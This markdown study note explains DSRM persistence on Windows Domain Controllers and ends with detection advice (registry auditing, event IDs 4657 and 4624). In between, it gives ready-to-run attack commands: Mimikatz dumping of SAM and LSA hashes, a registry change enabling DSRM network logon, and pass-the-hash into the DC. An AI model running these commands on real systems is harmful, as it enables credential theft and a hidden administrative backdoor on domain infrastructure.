

> [!abstract] DSRM Persistence (Directory Services Restore Mode)
> **Directory Services Restore Mode (DSRM)** is a special safe-mode boot option for Windows Domain Controllers used for recovering AD databases. The DSRM account is a local Administrator account on the DC that is independent of Active Directory. Attackers who compromise a DC can modify the DSRM password or enable network logon for this account, creating a stealthy, persistent backdoor that survives AD reboots and recoveries.
> **MITRE ATT&CK Mapping:** [T1098 - Account Manipulation](https://attack.mitre.org/techniques/T1098/) | [T1078.003 - Valid Accounts: Local Accounts](https://attack.mitre.org/techniques/T1078/003/)

## Concept: What is DSRM?

> [!info] Understanding the DSRM Account
> When a server is promoted to a Domain Controller, a separate local administrator account is created specifically for DSRM. 
> 
> **Key Characteristics:**
> - When the DC boots normally, this account is dormant. Active Directory handles authentication.
> - When the DC boots into DSRM, Active Directory services are stopped. The only way to log in is using the DSRM Administrator password.
> - By default, this account **cannot** be used to log in over the network when the DC is running normally.
> 
> **The Attack Concept:** If an attacker changes the DSRM password to something they know, and modifies a registry key to allow network logons using DSRM credentials, they have a persistent backdoor to the DC that is completely separate from Domain Admin accounts.



---

## Execution & Attack Flow

> [!warning] Prerequisites
> To perform this attack, you must have **Domain Admin** privileges (or local Administrator access directly on the Domain Controller).

### Step 1: Dump the DSRM Hash
The DSRM account is stored in the local SAM database of the Domain Controller, not in Active Directory. We need to dump the SAM database to get the NTLM hash of the DSRM Administrator account.

> [!example]+ Dumping SAM with Mimikatz
> You can execute Mimikatz remotely using PowerShell remoting or WMI.
> 
> **Method A: Dumping SAM directly**
> ```powershell
> # Runs Mimikatz on the remote DC to dump the SAM database
> Invoke-mimikatz -Command '"token::elevate" "lsadump::sam"' -computername dcmachine
> ```
> 
> **Method B: Dumping LSA secrets (Alternative)**
> ```powershell
> Invoke-mimikatz -Command '"lsadump::lsa /patch"' -Computername dcmachine
> ```
> *Look for the `Administrator` account hash in the output. This is the DSRM account.*

### Step 2: Enable Network Logon for DSRM
By default, Windows restricts DSRM accounts from logging in over the network. We must change the `DsrmAdminLogonBehavior` registry key to `2` (Allow network logon).

> [!tip]+ Modifying the Registry on the DC
> Establish a remote shell on the DC and modify the registry.
> ```powershell
> # 1. Connect to the DC via WinRS
> winrs /r:dc.domain.local powershell.exe
> 
> # 2. Change the registry value to allow network logon (2 = Enable)
> new-itemproperty "hklm:\System\CurrentControlSet\Control\LSA\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
> ```

### Step 3: Pass-the-Hash (PtH) with DSRM Account
Now that the DSRM account is allowed to log in over the network, we can use Pass-the-Hash to authenticate to the DC using the hash we dumped in Step 1.

> [!danger+] Executing Pass-the-Hash
> Use Mimikatz to spawn a new PowerShell process with the DSRM hash injected.
> ```powershell
> # Use 'localhost' or the DC's hostname as the domain for local accounts
> Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::pth /user:Administrator /domain:localhost /ntlm:<DSRM_HASH> /run:powershell.exe"'
> ```

### Step 4: Establish Persistent Access
With the PtH payload running, you can now use the injected credentials to establish a persistent session via PowerShell Remoting.

> [!success]+ Accessing the DC
> ```powershell
> # Use Negotiate authentication to pass the local hash
> Enter-Pssession -computername hostname -Authentication negotiate
> ```

---

## Detection & Defensive Measures

> [!warning] How to Detect DSRM Abuse
> 1. **Registry Modification:** Monitor for changes to `HKLM\System\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior`. If this value is set to `2` (or `1`), it is a massive red flag, as it is not the Windows default.
> 2. **Event ID 4657 (Registry Value Modified):** Audit registry changes in the `Lsa` key.
> 3. **Event ID 4624 (Logon Type 3):** Monitor for network logons on the Domain Controller using the local `Administrator` account (the DSRM account) rather than a Domain Admin account. 
> 4. **Mimikatz Detection:** Monitor for LSASS access or the execution of `lsadump::sam`.

